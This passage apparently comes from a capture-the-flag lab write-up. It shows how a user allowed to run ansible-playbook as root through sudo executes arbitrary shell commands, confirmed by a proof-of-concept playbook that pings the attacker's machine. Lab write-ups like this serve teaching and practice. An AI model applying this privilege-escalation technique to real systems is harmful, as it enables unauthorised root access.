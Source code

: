 luis can run `ansible-playbook` as root with `sudo`:



    luis@seal:~$ sudo -l
    Matching Defaults entries for luis on seal:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User luis may run the following commands on seal:
        (ALL) NOPASSWD: /usr/bin/ansible-playbook *



### Playbook POC

I'll grab the playbook from `/opt` and use it as a template to make my
own.



    - hosts: localhost
      tasks:
      - name: ping
        shell: ping -c 1 10.10.14.22



I'll start `tcpdump`, and run this:



    luis@seal:/dev/shm$ ansible-playbook ping.yml 
    [WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

    PLAY [localhost] *******************************************************************************************************************

    TASK [Gathering Facts] *************************************************************************************************************
    ok: [localhost]

    TASK [ping] ************************************************************************************************************************
    changed: [localhost]

    PLAY RECAP *************************************************************************************************************************
    localhost                  : ok=2    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0



There's nothing obvious in that output that it worked, but there is an
ICMP packet:



    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    04:13:59.649051 IP 10.10.10.250 > 10.10.14.22: ICMP echo request, id 1, seq 1, length 64
    04:13:59.649082 IP 10.10.14.22 > 10.10.10.250: ICMP echo reply, id 1, seq 1, length 64
